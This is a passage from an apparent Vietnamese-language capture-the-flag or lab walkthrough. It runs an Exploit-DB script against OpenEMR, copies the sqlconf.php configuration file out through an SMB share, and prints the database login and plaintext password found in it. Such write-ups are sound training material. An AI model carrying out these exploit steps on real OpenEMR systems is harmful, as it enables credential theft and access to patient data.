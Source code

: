 Tiếp theo, khởi chạy exploit. Mặc dù không chắc phần mềm OpenEMR được cài đặt ở đâu, có thể thử một vài vị trí phổ biến, chẳng hạn như `/var/www/` và `/var/www/html/`. Thành công với vị trí đầu tiên.

```
┌──(kali㉿kali)-[~]
└─$ python3 49359.py http://192.168.120.204/ PHPSESSID=7hrtuqi0g91njt7n9eu498q5rv /var/www/openemr/sites/default/sqlconf.php
[*] Copy Clipboard
[*] Paste Clipboard
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 192.168.120.204 Port 80</address>
</body></html>

┌──(kali㉿kali)-[~]
└─$
```

Nếu kiểm tra thư mục ngay bây giờ, thấy file mong muốn.

```
smb: \> ls
  .                                   D        0  Thu May 27 10:25:22 2021
  ..                                  D        0  Fri Apr  9 11:47:12 2021
  sqlconf.php                         N      639  Thu May 27 10:25:22 2021
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 11:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 11:47:12 2021

                16446332 blocks of size 1024. 10839440 blocks available
smb: \>
```

Nice, exploit đã thành công và file đã đến. Lấy nó thông qua SMB session.

```
smb: \> get sqlconf.php
getting file \sqlconf.php of size 639 as sqlconf.php (5.0 KiloBytes/sec) (average 5.0 KiloBytes/sec)
smb: \> quit

┌──(kali㉿kali)-[~]
└─$
```

Công sức đã được đền đáp bằng thông tin xác thực cơ sở dữ liệu cho hệ thống OpenEMR.

```
┌──(kali㉿kali)-[~]
└─$ cat sqlconf.php                                       
<?php
//  OpenEMR
//  MySQL Config

$host   = 'localhost';
$port   = '3306';
$login  = 'openemr';
$pass   = 'C78maEQUIEuQ';
$dbase  = 'openemr';

//Added ability to disable
//utf8 encoding - bm 05-2009
global $disable_utf8_flag;
$disable_utf8_flag = false;
```